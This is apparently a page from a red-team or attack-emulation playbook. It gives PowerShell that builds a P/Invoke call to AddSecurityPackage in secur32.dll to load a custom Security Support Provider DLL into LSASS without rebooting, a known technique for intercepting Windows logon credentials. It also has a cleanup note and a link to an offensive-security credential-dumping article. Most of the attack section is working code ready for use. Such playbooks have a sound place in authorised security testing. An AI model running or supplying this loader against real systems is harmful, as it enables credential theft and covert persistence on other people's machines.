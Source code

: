 If loading manually, first set the path to the compiled SSP DLL into a variable

```
PS> $DllName = "{{ ssp_dll_path }}"
```

Then load the SSP into LSASS

```
PS>
$DynAssembly = New-Object System.Reflection.AssemblyName('SSPI2')
$AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
$ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('SSPI2', $False)

$TypeBuilder = $ModuleBuilder.DefineType('SSPI2.Secur32', 'Public, Class')
$PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('AddSecurityPackage',
    'secur32.dll',
    'Public, Static',
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([String], [IntPtr]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

$Secur32 = $TypeBuilder.CreateType()

if ([IntPtr]::Size -eq 4) {
    $StructSize = 20
} else {
    $StructSize = 24
}

$StructPtr = [Runtime.InteropServices.Marshal]::AllocHGlobal($StructSize)
[Runtime.InteropServices.Marshal]::WriteInt32($StructPtr, $StructSize)

$Secur32::AddSecurityPackage($DllName, $StructPtr)
```

### Cleanup

- The SSP will be removed on system reboot or after manually calling DeleteSecurityPackage()

### References

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package#loading-ssp-without-reboot

# Impact

## GPO Modifications - General guidance
